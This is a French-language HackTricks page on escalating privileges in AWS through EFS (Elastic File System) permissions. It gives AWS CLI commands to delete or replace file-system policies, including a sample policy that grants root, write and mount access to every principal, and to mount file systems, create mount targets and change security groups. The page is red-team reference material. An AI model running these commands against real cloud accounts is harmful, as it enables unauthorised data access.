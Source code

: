 # AWS - EFS Privesc

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

## EFS

Plus d'**informations sur EFS** dans :

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

N'oubliez pas que pour monter un EFS, vous devez être dans un sous-réseau où l'EFS est exposé et y avoir accès (groupes de sécurité). Si cela se produit, par défaut, vous pourrez toujours le monter, cependant, s'il est protégé par des politiques IAM, vous devez avoir les autorisations supplémentaires mentionnées ici pour y accéder.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Avec l'une de ces autorisations, un attaquant peut **changer la politique du système de fichiers** pour **vous donner accès** à celui-ci, ou simplement **le supprimer** afin que **l'accès par défaut** soit accordé.

Pour supprimer la politique :
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Pour le changer :
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Avec cette autorisation, un attaquant pourra **monter l'EFS**. Si l'autorisation d'écriture n'est pas accordée par défaut à tous ceux qui peuvent monter l'EFS, il n'aura que **l'accès en lecture**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Les autorisations supplémentaires `elasticfilesystem:ClientRootAccess` et `elasticfilesystem:ClientWrite` peuvent être utilisées pour **écrire** à l'intérieur du système de fichiers après qu'il ait été monté et pour **accéder** à ce système de fichiers **en tant que root**.

**Impact potentiel :** Privesc indirect en localisant des informations sensibles dans le système de fichiers.

### `elasticfilesystem:CreateMountTarget`

Si un attaquant se trouve à l'intérieur d'un **sous-réseau** où **aucun point de montage** de l'EFS n'existe. Il pourrait simplement **en créer un dans son sous-réseau** avec ce privilège :
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Impact potentiel :** Privesc indirect en localisant des informations sensibles dans le système de fichiers.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

Dans un scénario où un attaquant découvre que l'EFS a un point de montage dans son sous-réseau mais **aucun groupe de sécurité n'autorise le trafic**, il pourrait simplement **modifier cela en changeant les groupes de sécurité sélectionnés** :
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Impact potentiel :** Privesc indirect en localisant des informations sensibles dans le système de fichiers.

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
